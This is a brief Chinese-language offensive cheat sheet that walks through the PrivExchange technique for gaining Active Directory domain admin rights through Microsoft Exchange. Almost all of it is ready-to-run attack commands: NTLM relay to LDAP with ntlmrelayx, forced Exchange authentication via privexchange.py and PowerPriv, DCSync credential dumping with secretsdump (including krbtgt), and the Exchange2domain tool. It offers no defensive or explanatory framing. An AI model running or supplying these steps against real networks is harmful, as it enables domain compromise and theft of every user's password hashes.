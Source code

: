 	通过利用Exchange 来交换域管理员权限的权限
	需要一个带有邮箱的用户帐户的shell
	Exchange 服务器主机名或 IP 地址
	>pth-net rpc group members "Exchange Servers" -I dc01.domain.local -U domain/username
	Exchange 服务器身份验证和权限提升的中继（使用 Impacket 的 ntlmrelayx）
	>ntlmrelayx.py -t ldap://dc01.domain.local --escalate-user username
	订阅推送通知功能（使用 privexchange.py 或 powerPriv），使用当前用户的凭据向 Exchange 服务器进行身份验证。强制 Exchange 服务器将其 NTLMv2 哈希发送回受控机器
	https://github.com/dirkjanm/PrivExchange/blob/master/privexchange.py
	>python privexchange.py -ah xxxxxxx -u xxxx -d xxxxx
	>python privexchange.py -ah 10.0.0.2 mail01.domain.local -d domain.local -u user_exchange -p pass_exchange

	https://github.com/G0ldenGunSec/PowerPriv 
	>powerPriv -targetHost corpExch01 -attackerHost 192.168.1.17 -Version 2016
	用 Impacket 的 secretdumps，用户现在可以执行 dcsync 并获取另一个用户的 NTLM 哈希
	>python secretsdump.py xxxxxxxxxx -just-dc
	>python secretsdump.py lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm
	恢复用户 ACL 的先前状态
	>python aclpwn.py --restore ../aclpwn-20190319-125741.restore

	或者可以使用 Metasploit 模块
	>use auxiliary/scanner/http/exchange_web_server_pushsubscription
	或者使用多合一工具：Exchange2domain
	>git clone github.com/Ridter/Exchange2domain 
	>python Exchange2domain.py -ah attackterip -ap listenport -u user -p password -d domain.com -th DCip MailServerip
	>python Exchange2domain.py -ah attackterip -u user -p password -d domain.com -th DCip --just-dc-user krbtgt MailServerip